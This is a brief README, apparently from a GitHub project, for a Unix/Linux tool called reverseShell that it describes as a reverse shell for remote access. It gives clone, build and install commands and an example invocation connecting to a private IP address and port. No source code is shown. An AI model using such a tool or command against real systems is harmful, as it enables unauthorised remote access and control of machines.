 Description
===========

	The reverse shell for remote access.

Requests
========
	OS: UNIX/LINUX

install
=======

	git clone https://github.com/ErilinAleksei/reverseShell.git
	cd /reverseShell	
	make
	make install

Using
=====

	EXAMPLES:
		reverseShell 192.168.10.150 2035
